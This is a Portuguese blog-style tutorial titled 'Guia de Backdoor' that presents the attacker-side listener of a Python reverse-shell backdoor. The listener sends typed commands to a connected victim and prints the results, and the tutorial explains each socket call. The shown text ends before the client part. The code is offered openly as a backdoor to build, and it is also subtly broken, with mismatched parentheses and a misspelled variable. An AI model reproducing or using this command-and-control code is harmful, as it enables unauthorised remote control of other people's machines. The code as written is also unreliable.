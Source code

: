```yaml
---
title: "Guia de Backdoor"
date: 2024-12-10 14:50:00 -0300
categories: [Guia]
tags: [Backdoor, APT-Técnicas]
---
```


![imagem](https://i.pinimg.com/736x/ae/f0/c1/aef0c11a232964100d4f5b7780f2b930.jpg)

# um Guia sobre Backdoors

> [!NOTE]
> Conteúdo desse Guia
* Como funciona um Backdoor
* Como fazer um simples Backdoor usando python

# um Backdoor simples em python
Nesse exemplo demonstro um Backdoor que usa uma reverse shell e estabelece uma conexão com o alvo para a maquina
do atacante do ataque, permitindo o atacante enviar comandos e receber outputs(saídas) do alvo.

* O código usa a biblioteca socket pra fazer a comunicação entre os Hosts

# Servidor

```
import socket

#comunicação do servidor
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind('localhost', 8080)) #o ip padrão e localhost, e porta 8080
s.listen(1)

#quando estabelecida a conexão, printa conectado e o addr(ip do cliente)
while True:
    conn, addr = s.accept()
    print(f"[+]Conectado a {addr}")

#o looping que permite o servidor enviar comandos pro cliente e receber 
    while True:
        command = input("Shell > ")
        if command == 'exit':
          conn.send(b'exit')
          conn.close()
          break
        else:
            conn.send(command.encode())
            output = conn.recv(1024))
            print(outut.decode())
```

>[!NOTE]
> Explicação mais detalhada do código para qualquer um entender
> um pouco de programação

# como configurar um servidor de socket

* ```s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)```
* s -> cria um novo objeto de socket
* socket.AF_INET -> especifica que o socket usará o protocolo IPv4
* socket.SOCK_STREAM -> indica que o socket será do tipo TCP

```s.bind(('localhost', 8080))```
* o método bind associa o socket a um endereço IP e uma porta específicos
* Nesse caso, o servidor foi vinculado ao endereço localhost e à porta 8080

```s.listen(1)```
* o método listen coloca o socket em modo de escuta, aguardando conexões de clientes.
* o parâmetro 1 especifica o número máximo de conexões que podem ser enfileiradas. Nesse caso, o servidor aceitará uma conexão à espera de outra.

# como estabelecer conexões de clientes no servidor socket

```while True```
* um looping que permite que o servidor continue aceitando conexões até que seja interrompido.

```conn, addr = s.accept()```
* o método accept aguarda até que um cliente se conecte ao servidor. quando o cliente se conecta, accept retorna dois valores:
  
<ins>conn</ins>: um objeto de socket que permite a comunicação com o cliente.
<ins>addr</ins>:  uma tupla contendo o endereço Ip e a porta do cliente conectado.
  
